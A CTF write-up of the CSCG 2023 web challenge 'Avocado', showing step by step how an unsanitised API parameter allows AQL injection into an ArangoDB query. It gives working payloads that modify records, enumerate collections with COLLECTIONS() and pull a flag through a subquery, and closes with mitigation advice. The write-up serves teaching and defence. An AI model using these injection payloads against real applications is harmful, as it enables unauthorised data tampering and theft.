```yaml
---
layout: post
title: "CSCG 23 - Writeup: Avocado"
categories: ctf, cscg
author:
- Gehim
---
```

This year i participated in the [CSCG][CSCG] and managed to qualify for the finals again. All participants were required to submit three writeups to be eligible for the final round. I chose this challenge because despite its simplicity only 32 people were able to solve it. Thus, i hope this writeup serves as an educational resource for newer players.

# Overview
- Category: Web
- Difficulty: Easy
- Author: TheVamp
- Solves: 32

> I love avocados! So I created a small website to show what different kinds of avocados exists. Hope you like it :) PS: Be aware that the setup take around 30 Seconds to boot.

We start by exploring the challenge setup. Unfortunately, we do not have the source code available for the challenge website, so we have to collect some intel manually. The website is a simple React application that provides information about different avocado types. Intercepting the network traffic with a proxy tool such as Burp, we can see that the application communicates with a backend API.

```
GET /api/avocado/Bacon HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 14:39:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 196
Access-Control-Allow-Origin: *
Connection: close

{"_key": "166", "_id": "avocado_items/166", "_rev": "_f9tH3rS---", "name": "Bacon", "shape": \
"oval", "skin": "smooth", "seed_size": "Medium/Large", "weight": "6-12 ounces", "size": \
"Medium/Large"}
```

Changing the avocado name to something else triggers an interesting error.

```
GET /api/avocado/Hallo HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 14:43:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 91
Access-Control-Allow-Origin: *
Connection: close

{"error": "Error in Query: FOR avc in avocado_items FILTER avc.name == 'Hallo' RETURN avc"}
```

The usual next step is to check whether we might be able to inject something in the query. So for example,
we try to insert an single quotation mark to escape from the string.

```
GET /api/avocado/Hallo' HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 14:43:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 91
Access-Control-Allow-Origin: *
Connection: close

{"error": "Error in Query: FOR avc in avocado_items FILTER avc.name == 'Hallo'' RETURN avc"}
```

It works. Apparently, special characters are not properly encoded or filtered. This means we can inject a
malicious payload here. However, the database at hand is not your usual SQL database. A quick search
for "avocado database" leads to [https://www.arangodb.com/][arangodb]. ArandoDB is a graph database and the
queries are written in the [ArangoDB Query Language (AOL)][AOL].

# Solution

Usually, in query injection attacks the remaining part of the query is removed by inserting a comment. Since comments in the AOL all start with a forward slash, this is not an option here. Thus, we have to make sure we craft valid queries. If we insert the following payload (do not forget to use proper URL encoding):

```
' OR true UPDATE { _key: 'references', name: "CSCG" } IN avocado_items LET name = '
```

The query executed will be:

```
FOR avc in avocado_items FILTER avc.name == '' OR true UPDATE { _key: 'references', name: "CSCG" } IN avocado_items LET name = '' RETURN avc
```

If we visit the website again, we can see that we successfully changed the name.

```
GET /api/avocado/ HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 15:05:51 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 471
Access-Control-Allow-Origin: *
Connection: close

[
    {"id": "avocado_items/166", "name": "Bacon"},
    {"id": "avocado_items/168", "name": "Fuerte"},
    {"id": "avocado_items/170", "name": "Gem"},
    {"id": "avocado_items/172", "name": "Gwen"},
    {"id": "avocado_items/174", "name": "Hass"},
    {"id": "avocado_items/176", "name": "Lamb Hass"},
    {"id": "avocado_items/178", "name": "Pinkerton"},
    {"id": "avocado_items/180", "name": "Reed"},
    {"id": "avocado_items/182", "name": "Zutano"},
    {"id": "avocado_items/references", "name": "CSCG"}
]
```

Ok, so are able add stuff to the collections, but where is the flag? Luckily, AOL comes with a [bunch of predefined functions][functions] we can use. The most important one is `COLLECTIONS()`, since it returns a list of all available collections in the database. Upon using the following payload:

```
' OR true UPDATE { _key: 'references', name: COLLECTIONS() } IN avocado_items LET name = '
```

We retrieve a list of collections:

```
GET /api/avocado/ HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 15:13:52 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 844
Access-Control-Allow-Origin: *
Connection: close

[
    {"id": "avocado_items/166", "name": "Bacon"},
    {"id": "avocado_items/168", "name": "Fuerte"},
    {"id": "avocado_items/170", "name": "Gem"},
    {"id": "avocado_items/172", "name": "Gwen"},
    {"id": "avocado_items/174", "name": "Hass"},
    {"id": "avocado_items/176", "name": "Lamb Hass"},
    {"id": "avocado_items/178", "name": "Pinkerton"},
    {"id": "avocado_items/180", "name": "Reed"},
    {"id": "avocado_items/182", "name": "Zutano"},
    {"id": "avocado_items/references", "name": [
        {"_id": "128", "name": "_analyzers"},
        {"_id": "143", "name": "_appbundles"},
        {"_id": "140", "name": "_apps"},
        {"_id": "131", "name": "_aqlfunctions"},
        {"_id": "146", "name": "_frontend"},
        {"_id": "125", "name": "_graphs"},
        {"_id": "137", "name": "_jobs"},
        {"_id": "134", "name": "_queues"},
        {"_id": "161", "name": "avocado_items"},
        {"_id": "185", "name": "flag_items_c50044c5"}
        ]
    }
]
```

There we go. The flag is inside the `flag_items_c50044c5` collection. Now we make use of subqueries to extract the flag with

```
' OR true LET flag = (FOR f IN flag_items_c50044c5 RETURN f) UPDATE { _key: 'references', name: flag } IN avocado_items LET name = '
```

Visiting the website again, we are greeted with a juicy flag.

```
GET /api/avocado/ HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 15:17:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 594
Access-Control-Allow-Origin: *
Connection: close

[
    {"id": "avocado_items/166", "name": "Bacon"},
    {"id": "avocado_items/168", "name": "Fuerte"},
    {"id": "avocado_items/170", "name": "Gem"},
    {"id": "avocado_items/172", "name": "Gwen"},
    {"id": "avocado_items/174", "name": "Hass"},
    {"id": "avocado_items/176", "name": "Lamb Hass"},
    {"id": "avocado_items/178", "name": "Pinkerton"},
    {"id": "avocado_items/180", "name": "Reed"},
    {"id": "avocado_items/182", "name": "Zutano"},
    {"id": "avocado_items/references", "name": [
        {"_key": "yummy", "_id": "flag_items_c50044c5/yummy",
        "_rev": "_f9tH3r6---", "flag": "CSCG{yummy_4v0c4d0_db_gr4ph_1nj3ct10ns}"}
        ]
    }
]
```

# Mitigation
This is a very classic attack. Every input parameter that is used in a database query needs to be sanitized. It is of utmost importance to escape special character. That way we are unable to escape from the string and forge malicious payloads. Furthermore, it is considered good practise to disable error messages, or at least use a more generic one. This way, even if a potential vulnerability exists, it is more difficult to exploit it in practise.

[AOL]: https://www.arangodb.com/docs/stable/aql/
[CSCG]: https://cscg.de/
[arangodb]: https://www.arangodb.com/
[functions]: https://www.arangodb.com/docs/stable/aql/functions-miscellaneous.html
